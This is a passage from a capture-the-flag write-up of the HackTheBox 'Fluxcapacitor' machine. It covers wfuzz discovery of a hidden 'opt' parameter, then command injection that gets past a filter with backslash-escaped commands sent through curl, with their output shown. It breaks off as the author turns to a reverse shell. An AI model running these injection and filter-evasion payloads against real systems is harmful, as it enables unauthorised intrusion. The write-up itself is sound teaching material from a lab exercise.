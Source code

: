 ```
000041:  C=200      2 L        1 W           19 Ch        "2005"
........[TRUNCATED]........
``` 

As we can see we are getting a large amount of `200` responses all of with length `19` characters. They are basically the `time` garbage responses so we can use this as the baseline of stuff to ignore/filter out, so anything different then the `200` or `Char 19` is something we should potentially investigate further. 

```
root@dastinia:~/htb/fluxcapacitor# wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh=19 http://10.10.10.69/sync?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.69/sync?FUZZ=echo
Total requests: 220560

==================================================================
ID      Response   Lines      Word         Chars          Payload
==================================================================

009874:  C=403      7 L       10 W          175 Ch        "opt"
010679:  C=200      2 L        1 W           19 Ch        "NAS"
```

Interesting we got a different response from our filter word which means that `opt` has a high change of being the parameter that `/sync` is looking for.

Side Note: This took some time, and looking back at it, I should have used a more tailored list like the [Seclist Burp Parameter Names](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) word list. Second time around doing this box it took less than two minutes to find the correct parameter. In the future, I should have done a bit more research into finding a bit more optimal list, doing so would have made this much easier. 

After fiddling around with the formatting & trying a few different escape mechanisms (it would 403 if you just straight up gave it a command) code execution was successfully achieved.

### Getting Code Execution
```bash
root@dastinia:~/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? \h\ostname'"
fluxcapacitor
bash: -c: option requires an argument
```

```bash
root@dastinia:~/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? \u\name -a'"
Linux fluxcapacitor 4.13.0-17-generic #20-Ubuntu SMP Mon Nov 6 10:04:08 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
bash: -c: option requires an argument
```
### Getting User Shell
You very quickly find out that there's a multitude of characters and words being filtered. The next objective is to get a reverse shell so we don't have to keep interacting with it through `cURL`. `Socat` is my tool of choice. It's so versatile if I have the opportunity to use it, I will....
